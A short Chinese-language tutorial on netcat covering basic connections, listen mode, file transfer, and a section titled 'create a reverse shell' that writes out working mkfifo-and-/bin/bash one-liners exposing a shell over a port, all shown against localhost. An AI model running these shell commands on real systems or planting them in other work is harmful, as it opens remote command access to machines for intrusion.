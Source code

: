 ### nc (netcat)  
网络工具，用来在两台机器之间建立TCP/UDP连接，并通过标准的输入输出进行数据的读写  

### 命令  

- `nc www.baidu.com 80`通过命令与百度建立连接

- 'l' 监听模式  
```shell
    nc -l 127.0.0.1 9999  //服务端开启监听模式  
    nc 127.0.0.1 9999 //客户端连接
```

### 创建一个反弹shell  

```shell
#服务端开启循环
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc -l  5879 > /tmp/f   #如果需要客户端关闭后服务端依旧监听，则需要加上参数-k
#客户端连接
nc -v 127.0.0.1 5879


#或者  
#A
nc -lk -p 20000
#B
nc -n 127.0.0.1 20000 <./f |  /bin/bash | tee ./f
#A
pwd #在A上就可以控制B
```

`nc -l 9999 | /bin/bash`   
这里使用Netcat作为服务端监听9999端口，并将接收到的数据通过管道发送给/bin/bash，相当于将/bin/bash暴露到9999端口上，接着在本地机器上执行 
  
虽然我们能使用本地机器传输命令给到目标机器执行，但与ssh连接还是有点区别，因为在本地机器上并不能看到命令的执行结果。可以使用管道巧妙的解决该问题，在目标机器上执行

`$ mkfifo /tmp/pipe  `  

`$ cat /tmp/pipe | /bin/bash 2>&1 | nc -l -p 9999 > /tmp/pipe`
用mkfifo命令创建一个命名管道  

然后通过cat命令读取/tmp/pipe的内容，将内容通过管道发送给/bin/bash   

将/bin/bash的执行结果通过管道发送给nc   

nc将从本地机器上接收到的命令保存到/tmp/pipe中   

/tmp/pipe中的命令又被cat读取，传输到/bin/bash中，至次完成整个数据的流向   

现在在本地机器上就能收到/bin/bash命令的执行结果啦  


### 简单的文件传输  
```shell
# 假如A上的文件text.txt要传输到B上

#B  监听并接收 
nc -l 9999 > text.txt  

#A  连接并发送
nc 127.0.0.1 9999 < text.txt
```


